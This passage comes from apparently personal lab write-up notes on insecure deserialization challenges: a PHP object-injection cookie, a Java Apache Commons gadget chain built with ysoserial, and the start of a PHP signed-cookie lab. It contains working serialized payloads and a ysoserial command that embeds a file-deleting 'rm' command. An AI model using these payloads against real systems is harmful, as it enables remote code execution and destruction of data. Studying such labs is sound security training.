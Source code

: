 **Solution:**

```
GET /libs/CustomTemplate.php HTTP/1.1
...
Cookie: session=TzoxNDoiQ3VzdG9tVGVtcGxhdGUiOjE6e3M6MTQ6ImxvY2tfZmlsZV9wYXRoIjtzOjIzOiIvaG9tZS9jYXJsb3MvbW9yYWxlLnR4dCI7fQ%3d%3d
```

`#Decoded O:14:"CustomTemplate":1:{s:14:"lock_file_path";s:23:"/home/carlos/morale.txt";}`

### Lab: Exploiting Java deserialization with Apache Commons

This lab uses a serialization-based session mechanism and loads the Apache Commons Collections library. Although you don't have source code access, you can still exploit this lab using pre-built gadget chains.

To solve the lab, use a third-party tool to generate a malicious serialized object containing a remote code execution payload. Then, pass this object into the website to delete the morale.txt file from Carlos's home directory.

[https://github.com/frohoff/ysoserial\
https://jitpack.io/com/github/frohoff/ysoserial/master-SNAPSHOT/ysoserial-master-SNAPSHOT.jar](https://github.com/frohoff/ysoserialhttps://jitpack.io/com/github/frohoff/ysoserial/master-SNAPSHOT/ysoserial-master-SNAPSHOT.jar)

**`$ java -jar ysoserial-master-8eb5cbfbf6-1.jar CommonsCollections1 "rm /home/carlos/morale.txt" | base64`**

**Solution:**

URL Encoded -> Cookie: session=WRITEHERE

### Lab: Exploiting PHP deserialization with a pre-built gadget chain

This lab has a serialization-based session mechanism that uses a signed cookie. It also uses a common PHP framework. Although you don't have source code access, you can still exploit this lab's insecure deserialization using pre-built gadget chains.

To solve the lab, identify the target framework then use a third-party tool to generate a malicious serialized object containing a remote code execution payload. Then, work out how to generate a valid signed cookie containing your malicious object. Finally, pass this into the website to delete the morale.txt file from Carlos's home directory.

```
<!-- <a href=/cgi-bin/phpinfo.php>Debug</a> -->
```

**URL Decoded - Session Cookie:**

`{"token":"Tzo0OiJVc2VyIjoyOntzOjg6InVzZXJuYW1lIjtzOjY6IndpZW5lciI7czoxMjoiYWNjZXNzX3Rva2VuIjtzOjMyOiJ4YnZiZmczMWM4OGtuYXVuOGd3aGIybTdiNXN1YXhsNCI7fQ==","sig_hmac_sha1":"814bb8d5ba38f2dbef9e2c84801ebb6a523a0bac"}`

**Base64 Decoded:**

